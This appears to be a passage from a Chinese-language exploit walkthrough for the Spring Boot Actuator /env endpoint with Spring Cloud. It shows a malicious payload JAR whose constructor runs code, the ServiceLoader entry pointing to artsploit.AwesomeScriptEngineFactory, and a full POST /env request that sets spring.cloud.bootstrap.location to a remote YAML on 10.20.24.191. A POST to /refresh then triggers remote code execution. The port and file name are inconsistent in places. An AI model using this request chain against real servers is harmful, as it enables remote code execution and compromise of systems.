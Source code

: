 包含实际的字节码，并在构造函数中带有恶意有效载荷。

  `ymal_payload.jar\services\javax.script.ScriptEngineFactory`

只是一个包含对'artsploit.AwesomeScriptEngineFactory'的完整引用的文本文件，
以便ServiceLoader知道在哪里可以找到该类

内容：`artsploit.AwesomeScriptEngineFactory`


http://10.20.24.191:8090/ymal_payload.jar

`spring.cloud.bootstrap.location=http://10.20.24.191:8090/yaml_payload.yml`

## 0x01 Set spring.cloud.bootstrap.location

![](./location.png)
```
POST /env HTTP/1.1
Host: 10.20.24.191:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

spring.cloud.bootstrap.location=http://10.20.24.191:8000/yaml_payload.yml
```

## 0x02 refresh post任意内容，RCE 漏洞触发

![](./yaml_refresh.png)
